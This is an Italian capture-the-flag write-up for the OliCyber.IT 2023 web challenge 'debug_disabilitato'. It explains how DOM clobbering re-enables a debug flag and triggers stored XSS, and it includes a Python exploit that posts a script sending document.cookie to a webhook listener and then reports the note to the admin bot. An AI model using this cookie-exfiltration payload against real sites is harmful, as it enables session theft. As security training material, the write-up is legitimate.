 # OliCyber.IT 2023 - Selezione territoriale

## [web-3] debug_disabilitato (8 risoluzioni)

Nell'applicazione abbiamo la possibilità di inserire delle note, il rendering della nota è eseguito attraverso del codice javascript client-side.

In particolare c'è un punto del codice che dovrebbe attirare l'attenzione:

```javascript
<script>// window.debug = true;</script>
```

```javascript
// Debug disattivato, da cancellare appena il boss mi da il permesso
if (window.debug) {
  document.write(
    `<p class='py-6 font-normal text-lg text-zinc-700'>Note title: ${data.title}</p>`
  );
  document.write(
    `<p class='py-6 font-normal text-lg text-zinc-700'>Note content: ${data.content}</p>`
  );
}
```

### Soluzione

Abbiamo quindi del codice che è disabilitato in quanto una variabile non è stata dichiarata.
Nella nota possiamo inserire alcuni tag HTML che da soli non permettono l'esecuzione di codice client-side, tuttavia permettono di fare altre cose come il DOM clobbering.

Possiamo infatti creare dei tag con la proprietà `id` che vanno a costituire una HTML Collection, questo significa che gli elementi con un id specificato (ma anche proprietà `name`) finiscono sotto l'oggetto globale `window`.

Possiamo difatti riabilitare la stampa di debug che è vulnerabile ad una normale DOM based XSS.
Usando quindi un exploit di questo genere abbiamo esecuzione di codice:

```javascript
<p id="debug"></p>
<script>
    alert(1);
</script>
```

### Exploit

```python
import requests
import string
import random
import re

def random_string():
    return ''.join(random.choices(string.ascii_letters, k=10))

url = "http://debug_disabilitato.challs.olicyber.it"
username = random_string()
password = random_string()
xss_listener = "https://webhook.site/[REDATTO]"

s = requests.Session()
r = s.post(f"{url}/register", data={
    "username": username,
    "password": password
})

r = s.post(f"{url}/add_note", data={
    "title": "Exploit",
    "content": f'<p id="debug"></p> <script>location.href = "{xss_listener}?" + document.cookie;</script>'
})

matches = re.findall('<a href="get_note/(\d+)"', r.text)
report_id = matches[0]

r = s.post(f"{url}/report", data={
    "report_id": report_id
})

```
